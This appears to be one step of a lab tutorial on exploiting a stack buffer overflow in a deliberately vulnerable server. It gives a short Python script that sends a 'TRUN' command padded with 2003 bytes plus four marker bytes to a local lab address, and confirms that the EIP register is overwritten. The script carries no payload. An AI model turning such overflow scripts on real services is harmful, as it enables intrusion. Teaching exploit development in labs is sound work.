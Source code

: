 # Overwritting the EIP 

We previously found that the offset was at 2003 bytes 

I.e. there are 2003 bytes before you get to the EIP and the EIP itself is 4 bytes long

Change our last script `2.py` to `3.py` to check if we can overwrite the EIP:

```
#!/usr/bin/python
import sys, socket

shellcode = "A" * 2003 + "B" * 4

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		s.send(('TRUN /.:/' + shellcode ))
		s.close()
	except:
		print "Error connecting to server"
		sys.exit()
```

![eip](https://user-images.githubusercontent.com/87711310/209446732-f6da054d-5431-4f87-bb83-48af9060a054.png)


Indeed able to control the EIP, which became "B" (42424242)
